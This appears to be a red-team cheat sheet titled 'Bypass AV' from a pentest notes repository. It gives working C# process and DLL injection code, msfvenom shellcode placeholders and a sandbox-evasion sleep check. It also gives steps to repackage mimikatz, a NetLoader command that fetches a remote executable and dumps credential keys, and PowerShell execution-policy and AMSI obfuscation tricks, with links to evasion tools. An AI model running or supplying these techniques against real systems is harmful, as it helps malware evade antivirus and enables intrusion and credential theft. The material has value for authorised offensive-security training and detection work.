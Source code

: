 ```yaml
---
layout: app
title: "Bypass AV"
tags: ["bypass","evassion", "av", "DefenderCheck", "Netloader","obfuscate"]

---
```

# C#


```cs
 [DllImport("kernel32.dll", ExactSpelling = true, SetLastError = true)]
 [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
 public static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

 [DllImport("kernel32.dll")]
 public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

 [DllImport("kernel32.dll")]
 public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

 [DllImport("kernel32.dll")]
 public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

 [DllImport("kernel32.dll")]
 public static extern IntPtr GetProcAddress(IntPtr module, string processName);

 [DllImport("kernel32.dll")]
 public static extern IntPtr GetModuleHandle(string lpModuleName);

 [DllImport("kernel32.dll")]
 public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

 [DllImport("kernel32.dll")]
 public static extern void Sleep(uint dwMilliseconds);

    
const uint PROCESS_ALL_ACCESS = 0x001F0FFF;
const uint MEM_COMMIT=0x1000;
const uint MEM_RESERVE=0x3000;
const uint PAGE_EXECUTE_READWRITE=0x40;
```

## Process Injection

```cs
static void Main(string[] args){


    IntPtr hProcess = OpenProcess(0x001F0FFF, false, <ProcessId>);

    IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //SHELL Code 
    // msfvenom -p /windows/x64/exec CMD=calc.exe -f csharp
    byte[] buf = new byte[626] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc...}

    IntPtr outSize;
    WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

    IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
}
```

## DLL Injection

```cs

// Example: msfvenom -p windows/x64/exec CMD=calc.exe -f dll -o DLL_PATH

string dllName = "DLL_PATH";


Process[] expProc = Process.GetProcessesByName("notepad");
int pid = expProc[0].Id;

IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
IntPtr outSize;
Boolean res = WriteProcessMemory(hProcess, addr,
Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),
"LoadLibraryA");
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
addr, 0, IntPtr.Zero);

```

## Reflective DLL Injection

```powershell
[System.IO.File]::ReadAllBytes()
```

## SLEEP Timer

```cs
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);


[DllImport("kernel32.dll")]
public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

[DllImport("kernel32.dll")]
public static extern UInt32 Sleep(uint dwMilliseconds);

  DateTime t1 = DateTime.Now;
  Sleep(2000);
  double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
  if (t2 < 1.5)
  {
      return;
  }
```

# Nimcrypt2

[https://github.com/icyguider/Nimcrypt2](https://github.com/icyguider/Nimcrypt2)

# ProtectMyTooling

https://github.com/mgeeky/ProtectMyTooling

# CsWhispers

[https://github.com/rasta-mouse/CsWhispers](https://github.com/rasta-mouse/CsWhispers)

# chimera

[https://github.com/tokyoneon/chimera](https://github.com/tokyoneon/chimera)

# DefenderCheck

DefenderCheck It's to be used to detect all bytecode that could be detected by AV.
              
[https://github.com/matterpreter/DefenderCheck](https://github.com/matterpreter/DefenderCheck)

[Out-CompressedDll](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)

# AV Bypass

## BetterSafetyKatz
1. Download the latest releafe of mimikatz_trunk.zip
2. Convert file to base64


```powershell
$filename = "c:\temp\mimikatz_trunk.zip"
[Convert]::TOBase64String([IO.File]::ReadAllBytes($filename)) | clip
```
3. Modify [SafetyKatz](https://github.com/Flangvik/BetterSafetyKatz/blob/master/SafetyKatz/Program.cs) with above value

## Netloader

[https://github.com/Flangvik/NetLoader](https://github.com/Flangvik/NetLoader)
[https://gist.github.com/Arno0x/2b223114a726be3c5e7a9cacd25053a2](https://gist.github.com/Arno0x/2b223114a726be3c5e7a9cacd25053a2)

### Example

```powershell
Loader.exe -path http://xxxxx.exe skurlsa:ekeys exit
```

## Invisi-Shell

Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies.
[https://github.com/OmerYa/Invisi-Shell](Invisi-Shell)

## AMSITrigger

To Scan custom script to avoid signature
https://github.com/RythmStick/AMSITrigger

## Invoke-Obfuscation

To Obfuscate the AMSI bypass
[https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

## Native

```powershell
powershell -ExecutionPolicy Bypass
powershell -c cmd
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

### Obfuscate Runtime Instructions

```powershell
$String="niamoDppA.metsyS"
$classrev = ([regex::Matches($String,'.','RightToLeft')]) | ForEach {$_.value} - join ''
$AppDomain = [Reflection.Assembly].Assembly.GetType("$classrev").GetProperty('CurrentDomain').GetValue($null, @())

```
